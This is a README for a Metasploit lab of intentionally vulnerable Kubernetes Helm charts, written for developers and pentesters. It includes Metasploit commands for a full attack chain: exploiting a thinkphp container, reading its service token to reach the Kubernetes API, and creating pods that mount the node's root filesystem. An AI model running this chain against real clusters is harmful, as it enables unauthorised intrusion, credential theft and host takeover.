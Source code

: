 ### Kubernetes

A collection of Helm charts have been created to aid both Metasploit developers and pentesters explore Metasploit's
Kubernetes support and exploitation capabilities.

## Available Charts

- `secrets` - Create multiple Kubernetes Secrets to test Metasploit's enumeration capabilities
- `thinkphp` - Run an intentionally vulnerable `thinkphp` application with full cluster access. Exploit with `exploit/unix/webapp/thinkphp_rce` for a Meterpreter session.
- `lucee` - Run an intentionally vulnerable `lucee` application with minimal cluster access. Exploit with `linux/http/lucee_admin_imgprocess_file_write` for a cmd shell session.

## Usage

First ensure that Kubernetes is installed on your host machine with either [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation),
[Minikube](https://minikube.sigs.k8s.io/docs/start/), [Docker Desktop](https://docs.docker.com/desktop/kubernetes/), or alternatives.

Next install the vulnerable charts and configuration:

```
docker-compose run setup
```

You can now use Metasploit from your host machine to target the intentionally vulnerable cluster.

To enter into an interactive environment with all of the required Helm/Kubectl tools available:

```
docker-compose run setup /bin/sh
kubectl get all --all-namespaces
helm list
```

### Workflow Example

First configure the Kubernetes environment:
```
docker-compose run configure
```

Now expose the exploitable thinkphp application to your host machine. In the real world this step would not be required
as the application would be most likely already be publicly accessible:

```
docker-compose run forward
```

Open Metasploit and exploit the thinkphp container to open a Metarpreter session:

```
use unix/webapp/thinkphp_rce
run http://target_ip:9001
```

The `auxiliary/cloud/kubernetes/enum_kubernetes` module can now be used to pivot through the compromised container to reach
the previously inaccessible Kubernetes API. In this scenario the container's Kubernetes service token will be read from the
file system, and used to authenticate with the Kubernetes API:

```
use auxiliary/cloud/kubernetes/enum_kubernetes
run session=-1
```

If the compromised service token has the required permissions to create new pods, it is possible to open additional Metasploit sessions and
run one-of tasks with the `exploit/multi/kubernetes/exec` module. This newly created pod will also attempt to mount the Kubernetes Node's
root filesystem to `/host_mnt`, which may lead to additional attack vectors:

```
use exploit/multi/kubernetes/exec
run session=-1
```

See the corresponding documentation for each module for more detail.
